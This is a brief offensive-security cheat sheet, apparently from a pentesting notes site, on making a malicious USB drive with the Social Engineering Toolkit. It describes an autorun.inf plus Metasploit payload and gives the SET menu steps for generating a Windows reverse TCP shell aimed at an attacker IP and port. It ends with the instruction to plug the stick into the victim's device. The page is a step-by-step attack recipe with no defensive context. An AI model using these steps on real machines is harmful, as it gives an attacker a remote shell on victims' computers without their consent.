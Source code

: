# ♉ Malicious USB Drive

## SET (Social Engineering Toolkit)

Create malicious usb drives

{% hint style="info" %}
The Infectious USB/CD/DVD module will create an autorun.inf file and a Metasploit payload. When the DVD/USB/CD is inserted, it will automatically run if autorun is enabled.
{% endhint %}

```
# Start SET
sudo setookit

1 - Social-Engineering Attacks
3 - Infectious Media Generator
2 - Standard Metasploit Executable
1 - Windows Shell Reverse_TCP
<Enter attacker IP and Port>

[Copy the newly generated files into a usb stick and plug it into the victims device]
```
